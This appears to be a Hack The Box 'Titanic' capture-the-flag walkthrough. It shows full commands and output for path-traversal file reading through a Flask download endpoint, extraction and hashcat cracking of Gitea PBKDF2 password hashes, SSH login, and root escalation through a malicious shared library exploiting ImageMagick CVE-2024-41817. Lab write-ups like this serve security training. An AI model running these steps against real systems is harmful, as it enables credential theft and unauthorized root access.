










# Titanic - Easy

Target IP: **10.129.231.221**

## User Flag

Initial scan: ```sudo nmap -sC -sV 10.129.231.221 -v```

Output shows standard port 22 for ssh and port 80 running Apache 2.4.52.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 80 redirects us to ```titanic.htb```. Let's add that to our ```/etc/hosts``` file and navigate to it.

We are greeted with this home page.


The page seems to be static, although we see a form that we can submit with user input after pressing the "book now" button on the top right.


Let's capture the request and response and see what it's doing.

The form doesn't seem to be sending any requests, but we get a prompt to download our submitted data as a ```.json``` file.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-nsheo0ydfh]─[~]
└──╼ [★]$ cat a736562a-9130-4fb1-ac70-e3b6e8edf9b7.json | jq
{
  "name": "hi",
  "email": "hi@hi.com",
  "phone": "123456789",
  "date": "2026-09-16",
  "cabin": "Deluxe"
}
```

This doesn't seem like a clear vector, so let's perform some directory enumeration.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-nsheo0ydfh]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://titanic.htb/FUZZ -ic -t 50

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://titanic.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 7399, Words: 2501, Lines: 156, Duration: 18ms]
book                    [Status: 405, Size: 153, Words: 16, Lines: 6, Duration: 108ms]
                        [Status: 200, Size: 7399, Words: 2501, Lines: 156, Duration: 296ms]
:: Progress: [87651/87651] :: Job [1/1] :: 271 req/sec :: Duration: [0:06:01] :: Errors: 0 ::
```

We get a single hit on ```/book``` with a 405 status code, which is unusual.

Navigating to the page gives us the same error.



It seems like the page only accepts POST and OPTIONS requests.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-nsheo0ydfh]─[~]
└──╼ [★]$ curl -i -X OPTIONS http://titanic.htb/book
HTTP/1.1 200 OK
Date: Thu, 17 Sep 2026 14:20:11 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Type: text/html; charset=utf-8
Allow: OPTIONS, POST
Content-Length: 0
```

I'm not sure how to continue from here, so let's enumerate more.

Vhost enumeration finds us the ```dev``` subdomain. This seems to be what we are looking for.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-nsheo0ydfh]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://titanic.htb/ -H "Host: FUZZ.titanic.htb" -ic -t 10 -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://titanic.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.titanic.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

dev                     [Status: 200, Size: 13982, Words: 1107, Lines: 276, Duration: 25ms]
:: Progress: [4989/4989] :: Job [1/1] :: 877 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```

Let's add ```dev.titanic.htb``` to our ```/etc/hosts``` file and navigate to it.

We find a Gitea instance, running version 1.22.1.



Let's register for an account.



After making an account, going to ```/explore``` shows us two exposed repositories.



Digging around a bit, we see credentials for the internal MySQL database in ```docker-config/mysql/docker-compose.yml```.



In the ```flask-app``` repo, we can see the tickets previous users have submitted, and the source code for the back-end application.





Looking more closely at the source code, I identified a vulnerability.

```
@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

    if os.path.exists(json_filepath):
        return send_file(json_filepath, as_attachment=True, download_name=ticket)
    else:
        return jsonify({"error": "Ticket not found"}), 404
```

The function that requests a ticket download uses the ```os.path.join()``` function with a ```ticket``` value that is set by us. The ```os.path.join()``` function behaves weirdly in the way that if we specify a file with an absolute path in one of the arguments, all of the previous arguments are dropped. So while the intended functionality is to set the ```tickets``` directory then append the file name to that directory, by requesting files with absolute paths we get bypass that and get any file the user has access to.

Let's try this out.

We indeed can read ```/etc/passwd```, and we find a user with a shell set, ```developer```.



In the ```gitea``` folder for the Docker repository, there is a volume path on the remote machine that holds the data of the container.

We can search for details on how Gitea runs with Docker, and if there are any known default files that get created. We find that the configuration for the instance is saved at ```/data/gitea/conf/app.ini```. We can use our file read capability to read this configuration file.

What looks the most interesting here is that there is a ```.db``` file that likely holds some valuable information.



Let's download the file onto our attack host with ```curl```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-nsheo0ydfh]─[~]
└──╼ [★]$ curl http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db -o gitea.db
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 2036k  100 2036k    0     0  15.7M      0 --:--:-- --:--:-- --:--:-- 15.7M
```

After opening the ```.db``` with ```sqlite3```, we see a bunch of tables.

```
sqlite> .tables
access                     oauth2_grant             
access_token               org_user                 
action                     package                  
action_artifact            package_blob             
action_run                 package_blob_upload      
action_run_index           package_cleanup_rule     
action_run_job             package_file             
action_runner              package_property         
action_runner_token        package_version          
action_schedule            project                  
action_schedule_spec       project_board            
action_task                project_issue            
action_task_output         protected_branch         
action_task_step           protected_tag            
action_tasks_version       public_key               
action_variable            pull_auto_merge          
app_state                  pull_request             
attachment                 push_mirror              
auth_token                 reaction                 
badge                      release                  
branch                     renamed_branch           
collaboration              repo_archiver            
comment                    repo_indexer_status      
commit_status              repo_redirect            
commit_status_index        repo_topic               
commit_status_summary      repo_transfer            
dbfs_data                  repo_unit                
dbfs_meta                  repository               
deploy_key                 review                   
email_address              review_state             
email_hash                 secret                   
external_login_user        session                  
follow                     star                     
gpg_key                    stopwatch                
gpg_key_import             system_setting           
hook_task                  task                     
issue                      team                     
issue_assignees            team_invite              
issue_content_history      team_repo                
issue_dependency           team_unit                
issue_index                team_user                
issue_label                topic                    
issue_user                 tracked_time             
issue_watch                two_factor               
label                      upload                   
language_stat              user                     
lfs_lock                   user_badge               
lfs_meta_object            user_blocking            
login_source               user_open_id             
milestone                  user_redirect            
mirror                     user_setting             
notice                     version                  
notification               watch                    
oauth2_application         webauthn_credential      
oauth2_authorization_code  webhook
```

The ```user``` table looks the most interesting. Let's grab it.

It seems to contain password hashes for the Gitea accounts. The hash for the ```developer``` user is probably what we are looking for.

```
sqlite> SELECT * FROM user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
3|hi|hi||hi@hi.com|0|enabled|1fb5b478e7cff37a4905701fb8112d10479a282c8b2613f88fd2aa932543e1104c4d172b9f7adaa2e2edbf4fdc68f00af952|pbkdf2$50000$50|0|0|0||0|||feb6af32d1191055f5d4657f421ba38b|3db7b0a12accd20db49b1e04694ad960|en-US||1789655102|1789662055|1789655102|0|-1|1|0|0|0|0|1|0|5c5b8090f1ddaf9cd3ecb309dcafaaa6|hi@hi.com|0|0|0|0|0|0|0|0|0|unified|gitea-auto|0
```

The string ```pbkdf2$50000$50``` is on all rows, and seems to be like an indication of the specific hashing algorithm used. Indeed, a search gives us that it is a configuration string for the ```PBKDF2``` function.

We can grab the hash and cracked. I tried first with just the password hash, but it didn't work. We need to match the format that hashcat expects.

```
  Example.Hash........: sha256:1000:NjI3MDM3:vVfavLQL9ZWjg8BUMq6/FB8FtpkIGWYk
                        |    | |  | |      | |                              |
                        '-|--' '-|' '---|--' '----------------|-------------'
                          |      |      |                     '.______Base64-Encoded Hash
                          |      |      |
                          |      |      '._________Base64-Encoded Salt
                          |      |
                          |      '._______ Number of Iterations
                          |
                          '._____ Algorithm
```

We grab the salt for the ```developer``` user hash.

```
sqlite> SELECT salt FROM user where id == 2;
salt                            
--------------------------------
8bf3e3452b78544f8bee9400d6936d34
```

We need to decode the salt and hash from hex and encode it again in base64.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-nsheo0ydfh]─[~]
└──╼ [★]$ echo -n '8bf3e3452b78544f8bee9400d6936d34' | xxd -r -p | base64
i/PjRSt4VE+L7pQA1pNtNA==
```

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-nsheo0ydfh]─[~]
└──╼ [★]$ echo -n 'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56' | xxd -r -p | base64
5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

Final payload: ```sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=```

We can run hashcat with this.

Waiting for a bit, we crack the hash.

```
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 10900 (PBKDF2-HMAC-SHA256)
Hash.Target......: sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqc...lM+1Y=
Time.Started.....: Thu Sep 17 16:59:57 2026 (6 secs)
Time.Estimated...: Thu Sep 17 17:00:03 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     1022 H/s (10.18ms) @ Accel:512 Loops:256 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 6144/14344385 (0.04%)
Rejected.........: 0/6144 (0.00%)
Restore.Point....: 4096/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:49920-49999
Candidate.Engine.: Device Generator
Candidates.#1....: newzealand -> iheartyou

Started: Thu Sep 17 16:59:47 2026
Stopped: Thu Sep 17 17:00:04 2026
```

Let's try logging in as ```developer``` through ssh.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-nsheo0ydfh]─[~]
└──╼ [★]$ ssh developer@10.129.231.221
developer@10.129.231.221's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Sep 17 09:01:22 PM UTC 2026

  System load:           0.0
  Usage of /:            73.8% of 6.79GB
  Memory usage:          15%
  Swap usage:            0%
  Processes:             227
  Users logged in:       0
  IPv4 address for eth0: 10.129.231.221
  IPv6 address for eth0: dead:beef::a0de:adff:fe79:2cb0


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

developer@titanic:~$ whoami
developer
```

It worked. We can proceed to get the user flag from here.

## Root Flag

```sudo -l``` tells us the ```developer``` user cannot run sudo. No interesting SUID binaries either.

Looking at ```/etc/cron.d``` reveals an interesting cron job that runs as root.

```
developer@titanic:/etc/cron.d$ cat e2scrub_all 
30 3 * * 0 root test -e /run/systemd/system || SERVICE_MODE=1 /usr/lib/x86_64-linux-gnu/e2fsprogs/e2scrub_all_cron
10 3 * * * root test -e /run/systemd/system || SERVICE_MODE=1 /sbin/e2scrub_all -A -r
```

```/opt``` seems to be holding the data for the website.

```
developer@titanic:/$ cd opt
developer@titanic:/opt$ ls -la
total 20
drwxr-xr-x  5 root root      4096 Feb  7  2025 .
drwxr-xr-x 19 root root      4096 Feb  7  2025 ..
drwxr-xr-x  5 root developer 4096 Feb  7  2025 app
drwx--x--x  4 root root      4096 Feb  7  2025 containerd
drwxr-xr-x  2 root root      4096 Feb  7  2025 scripts
developer@titanic:/opt$ cd app
developer@titanic:/opt/app$ ls -la
total 24
drwxr-xr-x 5 root developer 4096 Feb  7  2025 .
drwxr-xr-x 5 root root      4096 Feb  7  2025 ..
-rwxr-x--- 1 root developer 1598 Aug  2  2024 app.py
drwxr-x--- 3 root developer 4096 Feb  7  2025 static
drwxr-x--- 2 root developer 4096 Feb  7  2025 templates
drwxrwx--- 2 root developer 4096 Sep 17 14:10 tickets
```

There is script contained in ```/opt/scripts```.

```
developer@titanic:/opt/scripts$ cat identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

It seems to just identify the images in the images directory and pipes the results into the ```/usr/bin/magick``` directory, which the results are written to ```metadata.log```.

I'm thinking the cron job is responsible for running the script.

```
developer@titanic:/opt/app/static/assets/images$ ls -l metadata.log 
-rw-r----- 1 root developer 442 Sep 17 21:26 metadata.log
```

The version of the Magick binary is 7.1.1-35. I wonder if we can find any vulnerabilities.

```
developer@titanic:/opt/app/static/assets/images$ magick -version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```

This version is indeed vulnerable to CVE-2024-41817, an RCE vulnerability caused by Magick potentially loading shared libraries from a user-controllable working directory due to setting environment variables improperly.

For the script, Magick should be working in ```/opt/apps/static/assets/images```. Additionally, that directory is indeed writable to us. 

Let's try this out

First, we can create a c script that will create a setuid enabled copy of ```/bin/bash```, and it will be created by ```root``` since the cron job will be ran by ```root```.



Then, let's compile the binary, not forgetting the ```-shared``` and ```-fPIC``` files for shared libraries.

```
developer@titanic:/opt/app/static/assets/images$ gcc pwn.c -shared -fPIC -o ./libxcb.so.1
```

After a bit, we see the copy of ```/bin/bash```.

```
developer@titanic:/tmp$ ls -la
total 1432
drwxrwxrwt 16 root      root         4096 Sep 17 22:14 .
drwxr-xr-x 19 root      root         4096 Feb  7  2025 ..
-rwsr-sr-x  1 root      root      1396520 Sep 17 22:14 bash
```

Let's run the copied binary with the ```-p``` flag so we get the privileged shell.

```
developer@titanic:/tmp$ ./bash -p
bash-5.1# whoami
root
```

We can get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
